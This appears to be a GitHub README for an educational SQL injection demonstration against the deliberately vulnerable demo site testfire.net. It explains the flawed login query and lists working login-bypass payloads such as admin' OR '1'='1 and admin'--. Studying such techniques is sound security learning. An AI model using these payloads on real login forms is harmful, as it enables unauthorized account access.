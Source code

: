 # sql-injection
Demonstration of a SQL injection attack performed on a vulnerable website. Please note that the website used for this demonstration was created for educational purposes and with proper authorization.

## Table of Contents
- [Introduction](#introduction)
- [Vulnerable Website](#vulnerable-website)
- [SQL Injection Attack](#sql-injection-attack)
- [Payload and Exploitation](#payload-and-exploitation)
- [Usage](#usage)
- [Disclaimer](#disclaimer)

## Introduction

SQL injection is a type of cyber attack that targets the security vulnerabilities in an application's interaction with a database. It occurs when an attacker manipulates the input fields or parameters of an application in such a way that it injects malicious SQL (Structured Query Language) code into the database query. This can lead to unauthorized access, data theft, data manipulation, and in some cases, even complete control over a database or application.

## Vulnerable Website

The vulnerable website used in this project is a demo site created for educational purposes. 
Website URL: [https://demo.testfire.net/login.jsp](https://demo.testfire.net/login.jsp)

## SQL Injection Attack

The SQL injection attack demonstrated in this project highlights the potential risks of improperly sanitized user inputs. It exploits vulnerabilities in the website's code to manipulate the backend database through crafted SQL queries.

## Payload and Exploitation
Suppose a login form takes a username and password and constructs a SQL query like this:
SELECT * FROM users WHERE username = '$input_username' AND password = '$input_password'

1. Initial attempt:
   - Username: admin
   - Password: password
   - Result: Error message indicating incorrect credentials.

2. SQL Injection attempt:
   To check if the website is vulnerable to SQL injection, I tested the following:
   - Username: admin'
   - Result: Syntax error. Encountered "password" at line 1, column 67. <br>
   **Explanation**: The SQL query is now structured as 
     SELECT * FROM users WHERE username = 'admin'' AND password = 'password'
     giving the above error.

4. Successful SQL Injection:
   - Username: admin' OR '1'='1
   - Password: you can use any password
   - Result: Successfully logged in <br>
   **Explanation**: The SQL query is now structured as
     SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '$input_password'
     Due to the order of precedence for SQL queries, and because '1'='1' is always true, the I could effectively bypass the password check and gain unauthorized access.

5. Comment Injection:
   - Username: admin'--
   - Password: you can use any password
   - Result: Successfully logged in <br>
   **Explanation**: The SQL query is now structured as
     SELECT * FROM users WHERE username = 'admin' <span style="color:pink">-- AND password = 'password' </span>
     The password is now not considered as that part of the query is a comment. So, I could effectively bypass the password check and gain unauthorized access.
     
## Usage
To run and explore this project, follow these steps:
1. Go to the [website](#vulnerable-website)
2. Follow [these](#payload-and-exploitation) steps (1-5)

## Disclaimer
This project and the associated demonstration are intended solely for educational purposes. The vulnerable website and the SQL injection attack were performed in a controlled environment with proper authorization. The project creators are not responsible for any misuse of the information or techniques presented here.
